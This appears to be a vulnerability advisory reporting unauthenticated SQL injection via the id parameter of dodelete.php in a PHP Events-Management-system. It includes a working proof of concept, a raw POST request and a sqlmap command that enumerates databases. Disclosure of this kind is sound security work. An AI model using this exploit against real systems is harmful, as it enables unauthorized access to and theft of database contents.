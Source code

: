 # Events-Management-system has sql injection vulnerability via id parameter

## supplier
https://download.code-projects.org/details/25781c48-4c9f-495e-a56f-fd8b78652542
## Vulnerability file
dodelete.php and id parameter
## describe
There are unrestricted SQL injection attacks in the Events-Management-system. Controllable parameters: id. In dodelete.php, there is no restriction on adding id parameters to SQL statements. You can obtain sensitive information from the database.
## code analysis
The id parameters of the dodelete.php are not filtered and concatenated into the SQL statement for execution when attacker is not logining.

![image-20241103131350563](https://github.com/user-attachments/assets/7f5f32e1-795d-4c8c-83b6-f0126cdacdd7)



## POC

```
POST /dodelete.php HTTP/1.1
Host: events-management-system-master
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
Origin: http://events-management-system-master
Connection: close
Referer: http://events-management-system-master/delete.php
Upgrade-Insecure-Requests: 1
Priority: u=0, i

id=1*
```

save as 2.txt

execute this command.

```
python sqlmap.py -r 2.txt  --level 3 --risk 2 --dbs
```

Get the database name: project

![image-20241103131642190](https://github.com/user-attachments/assets/f6f6801c-29b1-4d8a-b5f7-c0361ca0758c)

